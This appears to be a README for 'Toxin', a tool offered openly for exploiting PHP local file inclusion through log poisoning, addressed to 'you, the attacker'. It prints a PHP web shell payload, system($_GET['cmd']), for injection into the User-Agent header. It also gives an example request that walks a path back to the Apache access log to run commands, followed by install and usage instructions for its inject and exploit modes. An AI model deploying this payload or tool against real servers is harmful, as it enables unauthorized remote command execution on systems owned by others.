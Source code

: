 # Toxin

Toxin is an LFI (Local File Inclusion)/Log Pollution Exploitation Tool.

## Introduction

Toxin exploits a particular (and yet also common)type of 
Local File Inclusion (LFI) vulnerability wherein the attacker
is able to take advantage of PHP's `register_globals` setting. 

In this attack scenario, the attacker would craft a custom 
`User-Agent` header which would contain arbitrary PHP code
that would register a new global variable to the environment
like so:

```php
<?php system($_GET['cmd']); ?>
```

With the new, malicious global variable registered, we can add it 
to a query string within a URL containing a file on the target host
which is vulnerable to inclusion, and then use the file along with
the query string to execute arbitrary system-level commands, like so:

`http://target.tld/info.php?page=../../../../../var/log/apache/access.log&cmd=whoami`

There are a number of common files which typically fall prey to this attack, 
Toxin does not attempt to fuzz for those files, but instead expects you, 
the attacker, to have prior knowledge of your target.

## Installation

`$ python setup.py install`

## Usage

```bash
Usage: toxin [OPTIONS]

  Toxin: Local File Inclusion/Log Pollution Exploitation Tool

Options:
  -u, --url TEXT        URL to query
  -p, --parameter TEXT  Parameter to inject into User-Agent header
  -c, --command TEXT    Command to Run
  -m, --mode TEXT       Mode (Inject or Exploit)
  -g, --paged           Paged Output
  --help                Show this message and exit.
```